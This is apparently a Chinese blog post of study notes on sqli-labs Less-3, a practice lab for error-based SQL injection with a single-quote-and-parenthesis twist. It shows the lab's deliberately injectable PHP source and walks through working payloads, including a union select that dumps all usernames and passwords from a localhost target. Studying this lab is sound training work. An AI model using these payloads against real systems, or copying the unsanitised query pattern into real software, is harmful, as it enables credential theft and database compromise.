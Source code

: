 ```yaml
---
title: sqli-labs学习笔记_03
categories:
- sqli-labs
tags:
- sql注入
updated: 2018-06-06
---
```


**第三节：GET - Error based - Single quotes with twist string** (基于错误的GET单引号变形字符型注入)

可以在你的php文件中加上一句话:echo "你的sql语句是：

```php+HTML
echo "你的sql语句是：".$sql."<br>";
```

代码如下：

~~~php+HTML
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Less-3 Error Based- String (with Twist) </title>

</head>

<body bgcolor="#000000">

<div style=" margin-top:60px;color:#FFF; font-size:23px; text-align:center">Welcome&nbsp;&nbsp;&nbsp;<font color="#FF0000"> Dhakkan </font><br>
<font size="3" color="#FFFF00">


<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);

// connectivity 


$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
echo "你的sql语句是：".$sql."<br>";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>


</font> </div></br></br></br><center>
<img src="../images/Less-3.jpg" /></center>
</body>
</html>

~~~



 当使用http://127.0.0.1/Less-3/?id=1的时候：

<img src="{{ site.url }}/assets//blog_images/sqli-labs_03_01.png" />

然后在后面加上'看下 

<img src="{{ site.url }}/assets//blog_images/sqli-labs_03_02.png" />

sql语句报错

```sql
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";#这个是03的代码
```

```sql
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1"; #这个是02的代码
```

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"; # 这个是01的代码
```

对比之后可以发现，03的代码中将id=('$id') ，这个是单引号注入变形

You have an error  in your SQL syntax; check the manual that corresponds to your MySQL  server version for the right syntax to use near ''1'') LIMIT 0,1' at  line 1 

这个是加入'之后的话，可以看出中间的错误''1'') LIMIT 0,1' 将两边的''去掉之后有:     **'1'') LIMIT 0,1**

这个就可以构造一下：

```
SELECT * FROM users WHERE id=('1') LIMIT 0,1
```

构造url：

http://127.0.0.1/Less-3/?id=1%27)--+

<img src="{{ site.url }}/assets//blog_images/sqli-labs_03_03.png" />

直接使用和01、02一样的方法既有：

`http://127.0.0.1/Less-3/?id=-1') union select 1,group_concat(char(32),username,char(32)),group_concat(char(32),password,char(32)) from users --+`

中间有很多的坑，都是慢慢来的，比如 --+  有时候会不小心写成—+  或者是少了）之类的，一定要有耐心



<img src="{{ site.url }}/assets//blog_images/sqli-labs_03_04.png" />



(个人学习笔记，部分转自互联网)













 








